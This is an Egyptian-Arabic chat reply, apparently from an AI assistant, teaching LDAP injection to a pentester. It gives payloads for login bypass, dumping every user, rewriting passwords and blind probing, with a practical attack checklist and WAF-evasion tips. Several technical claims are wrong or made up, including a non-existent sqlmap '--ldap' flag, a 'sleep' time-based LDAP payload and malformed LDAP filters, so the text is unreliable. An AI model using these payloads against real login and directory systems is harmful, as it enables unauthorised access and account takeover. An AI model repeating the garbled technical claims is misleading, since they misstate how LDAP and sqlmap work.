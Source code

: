 تمام، هنشرح **حالات حقيقية لاستغلال LDAP Injection** بعمق عملي مع أكواد وتفاصيل، وهنركز على الجوانب اللي تهمك كـ pentester. هقسم الموضوع لأجزاء عن حالات مختلفة، وبعد كل جزء هحط خلاصة طريفة بالعامية المصرية، وفي الآخر هقدم خطوات عملية للاستغلال. يلا نبدأ!

---

### **1. تجاوز المصادقة (Authentication Bypass)**
#### **إيه هو؟**
LDAP Injection بيحصل لما تطبيق بيستخدم LDAP (Lightweight Directory Access Protocol) للمصادقة وميعملش فلترة كويسة للمدخلات. تقدر تحقن كود يخليك تتخطى اللوجين من غير باسوورد صحيح.

#### **ازاي بيحصل؟**
LDAP بيستخدم استعلامات زي `(username=admin)(password=123)`، لو حطيت علامات خاصة زي `*` أو `)`، تقدر تغير منطق الاستعلام.

#### **مثال عملي:**
- الاستعلام الأصلي:
  ```
  (uid=admin)(userPassword=123)
  ```
- في حقل اليوزر نيم، جرب:
  ```
  admin)(&
  ```
  وفي الباسوورد أي حاجة (زي `test`). الاستعلام هيبقى:
  ```
  (uid=admin)(&)(userPassword=test)
  ```
  الـ `)(&` بيفصل الشرط ويخليه دايماً صح (True)، فتدخل من غير باسوورد.

- **اختبار حقيقي:**
  لو في فورم لوجين، حط:
  ```
  username: admin)(&
  password: whatever
  ```
  لو دخلت، يبقى نجح.

#### **خلاصة طريفة:**
تخيل إنك بتقول للبواب "أنا أحمد وبكمل الكلام بعدين"، لو فتحلك الباب من غير ما يكمل السؤال، يبقى هو اللي سابك تتسحب!

---

### **2. استخراج بيانات المستخدمين**
#### **إيه هو؟**
لو التطبيق بيستخدم LDAP لجلب بيانات (زي الاسم أو الإيميل)، تقدر تحقن استعلام يجيبلك بيانات كل المستخدمين بدل يوزر واحد.

#### **ازاي بيحصل؟**
بتستخدم الـ Wildcard `*` عشان تجيب كل النتايج من الديركتوري.

#### **مثال عملي:**
- الاستعلام الأصلي:
  ```
  (uid=admin)
  ```
- في حقل البحث أو اليوزر نيم:
  ```
  *)(uid=*
  ```
  الاستعلام هيبقى:
  ```
  (uid=*)(uid=*)
  ```
  معناه: "جيب كل المستخدمين اللي عندهم uid"، وكده هيرجعلك كل اليوزرز.

- **اختبار حقيقي:**
  لو في صفحة بحث:
  ```
  search: *)(uid=*
  ```
  لو ظهرت قايمة بكل المستخدمين (زي أسماء وإيميلات)، يبقى نجح.

#### **خلاصة طريفة:**
تخيل إنك بتقول لصاحب المخزن "هاتلي حاجة لأحمد، أو لأي حد موجود"، لو جابلك كل الحاجات، يبقى المخزن كله بقى بتاعك!

---

### **3. تعديل بيانات الديركتوري**
#### **إيه هو؟**
لو التطبيق بيسمح بكتابة بيانات في LDAP وفيه ثغرة، تقدر تحقن استعلام يغير بيانات زي الباسوورد أو الصلاحيات.

#### **ازاي بيحصل؟**
بتستخدم حقن يضيف أو يعدل خصائص (Attributes) في الديركتوري.

#### **مثال عملي:**
- الاستعلام الأصلي:
  ```
  (uid=admin)(mail=newemail@example.com)
  ```
- في حقل التعديل:
  ```
  admin)(userPassword=newpass
  ```
  الاستعلام هيبقى:
  ```
  (uid=admin)(userPassword=newpass)(mail=newemail@example.com)
  ```
  كده غيرت الباسوورد لـ `newpass`.

- **اختبار حقيقي:**
  لو في حقل تعديل بروفايل:
  ```
  username: admin)(userPassword=hacked
  ```
  لو اتغير الباسوورد، جرب تدخل بيه.

#### **خلاصة طريفة:**
تخيل إنك بتقول للموظف "غيرلي إيميلي، وكمان حطلي كلمة سر جديدة"، لو نفذ من غير ما يسأل، يبقى بقيت إنت المسؤول!

---

### **4. استغلال Blind LDAP Injection**
#### **إيه هو؟**
لو التطبيق مش بيرجع نتايج مباشرة، تقدر تستخدم تقنيات Blind (زي Boolean أو Time-Based) عشان تتأكد من الثغرة وتستخرج بيانات.

#### **ازاي بيحصل؟**
بتحقن شروط بترجع True/False أو تتأخر في الرد لو الشرط صح.

#### **مثال عملي:**
- **Boolean-Based:**
  الاستعلام الأصلي:
  ```
  (uid=admin)
  ```
  جرب:
  ```
  admin)(uid=admin
  ```
  لو دخلت، يبقى True. جرب:
  ```
  admin)(uid=wrong
  ```
  لو رفض، يبقى False.

- **Time-Based:**
  لو MongoDB مع LDAP:
  ```
  admin)(sleep=5
  ```
  لو الصفحة استنيت 5 ثواني، يبقى في ثغرة.

#### **خلاصة طريفة:**
تخيل إنك بتسأل البواب "لو أنا أحمد افتح الباب، لو مش أحمد استنى 5 ثواني"، لو استنى يبقى فتحتلك المجال تلعب!

---

### **خطوات عملية للاستغلال كـ Pentester**
1. **تجاوز المصادقة:**
   - في فورم لوجين، جرب:
     ```
     username: admin)(&
     password: test
     ```
     لو دخلت، يبقى نجح.

2. **استخراج البيانات:**
   - في حقل بحث:
     ```
     *)(uid=*
     ```
     لو رجع كل المستخدمين، دوّنهم.

3. **تعديل البيانات:**
   - في حقل تعديل:
     ```
     admin)(userPassword=newpass
     ```
     جرب اللوجين بالباسوورد الجديد.

4. **اختبار Blind:**
   - Boolean: جرب:
     ```
     admin)(uid=admin
     ```
     ثم:
     ```
     admin)(uid=wrong
     ```
   - Time-Based:
     ```
     admin)(sleep=5
     ```
     لو تأخرت، يبقى شغال.

5. **استخدام أدوات:**
   - جرب Burp Suite:
     اعترض الطلب وحط:
     ```
     username=admin)(&
     ```
   - أو sqlmap لو مدموج مع LDAP:
     ```
     sqlmap -u "http://example.com/login.php" --data="username=admin&password=test" --ldap
     ```

#### **نصيحة:**
- دوّن ردود السيرفر (زي أخطاء أو تأخير) عشان تفهم نوع الثغرة.
- لو في WAF، جرب تشفير الـ Payload زي `%29%26`.

---

ها، عايز أشرح حاجة زيادة زي استخراج بيانات أكتر أو أعمق في Blind؟